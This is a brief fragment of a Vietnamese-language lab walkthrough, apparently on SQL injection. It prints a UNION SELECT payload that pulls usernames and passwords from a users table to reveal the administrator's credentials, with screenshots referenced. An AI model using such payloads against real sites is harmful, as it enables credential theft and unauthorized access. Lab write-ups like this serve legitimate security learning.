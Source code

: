 ![image](images/lab-8/lab-8-1.png)

Chúng ta đọc nội dung của 2 cột đó với payload `' UNION SELECT PASSWORD_OSXRXI, USERNAME_ORDSTE FROM USERS_XAFIWJ--` thấy được thông tin của `administrator`:

![image](images/lab-8/lab-8-2.png)
